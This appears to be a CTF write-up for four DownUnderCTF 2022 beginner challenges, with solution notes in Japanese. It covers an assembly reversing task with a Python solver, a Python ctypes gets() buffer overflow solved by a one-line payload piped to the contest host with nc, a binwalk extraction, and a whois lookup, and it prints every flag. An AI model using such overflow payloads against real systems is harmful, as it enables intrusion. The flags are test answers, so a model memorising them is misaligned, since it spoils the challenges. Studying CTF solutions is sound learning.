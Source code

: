 # DownUnderCTF 2022

https://play.duc.tf/

## rev:source provided

beginner, In this reversing challenge, source is provided.

Author: joseph#8210

### solution

配布されたchall.Sとバイナリから、pythonでフラグを復元しました。

![](./images/source.png)

```S
SECTION .data
c db 0xc4, 0xda, 0xc5, 0xdb, 0xce, 0x80, 0xf8, 0x3e, 0x82, 0xe8, 0xf7, 0x82, 0xef, 0xc0, 0xf3, 0x86, 0x89, 0xf0, 0xc7, 0xf9, 0xf7, 0x92, 0xca, 0x8c, 0xfb, 0xfc, 0xff, 0x89, 0xff, 0x93, 0xd1, 0xd7, 0x84, 0x80, 0x87, 0x9a, 0x9b, 0xd8, 0x97, 0x89, 0x94, 0xa6, 0x89, 0x9d, 0xdd, 0x94, 0x9a, 0xa7, 0xf3, 0xb2

SECTION .text

global main

main:
    xor rax, rax
    xor rdi, rdi
    mov rdx, 0x32
    sub rsp, 0x32
    mov rsp, rsi
    syscall

    mov r10, 0
l:
    movzx r11, byte [rsp + r10]
    movzx r12, byte [c + r10]
    add r11, r10
    add r11, 0x42
    xor r11, 0x42
    and r11, 0xff
    cmp r11, r12
    jne b

    add r10, 1
    cmp r10, 0x32
    jne l

    mov rax, 0x3c
    mov rdi, 0
    syscall

b:
    mov rax, 0x3c
    mov rdi, 1
    syscall
```

solver

```python
data = [0xc4, 0xda, 0xc5, 0xdb, 0xce, 0x80, 0xf8, 0x3e, 0x82, 0xe8, 0xf7, 0x82, 0xef, 0xc0, 0xf3, 0x86, 0x89, 0xf0, 0xc7, 0xf9, 0xf7, 0x92, 0xca, 0x8c, 0xfb, 0xfc, 0xff, 0x89, 0xff, 0x93, 0xd1, 0xd7, 0x84, 0x80, 0x87, 0x9a, 0x9b, 0xd8, 0x97, 0x89, 0x94, 0xa6, 0x89, 0x9d, 0xdd, 0x94, 0x9a, 0xa7, 0xf3, 0xb2]
flag = ""
count = 0
for d in data:
  for i in range(0x7f):
    a = (i + count) + 0x42
    b = a ^ 0x42
    c = b & 0xff
    if c == d:
      flag += chr(i)
      count += 1
      break
print(flag)
```

### flag

```
DUCTF{r3v_is_3asy_1f_y0u_can_r34d_ass3mbly_r1ght?}
```


## pwn:babyp(y)wn

beginner, Python is memory safe, right?

Author: joseph#8210

### solution

配布されたpython scriptから`buf2`の先頭を`DUCTF`にすれば良いと判断しました。

```python
#!/usr/bin/env python3

from ctypes import CDLL, c_buffer
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
buf1 = c_buffer(512)
buf2 = c_buffer(512)
libc.gets(buf1)
if b'DUCTF' in bytes(buf2):
    print(open('./flag.txt', 'r').read())
```

solver

```bash
python3 -c "print('A'*512 + 'DUCTF')" | nc 2022.ductf.dev 30021
DUCTF{C_is_n0t_s0_f0r31gn_f0r_incr3d1bl3_pwn3rs}
```

### flag

```
DUCTF{C_is_n0t_s0_f0r31gn_f0r_incr3d1bl3_pwn3rs}
```

## DFIR: doxme

beginner, Office is my safe word...

Author: donfran#1306

### solution

`binwalk -e ./doxme`により、`./media`にフラグがありました。

### flag

```
DUCTF{WOrd_D0Cs_Ar3_R34L1Y_W3ird}
```



## DFIR: Shop-Knock Knock Knock

easy, Looks like there's been a bruteforce/password spray attempt against the website!

What's the contact email for the ISP of the attacker's IP?

Flag format: Email address, case insensitive

Author: Cake#4096

### solution

`"url": "shop.downunderctf.com/login"`のログが怪しかったため、そのときのorigin(`58.164.62.91`)をwhoisしました。

### flag

```
abuse@telstra.net
```

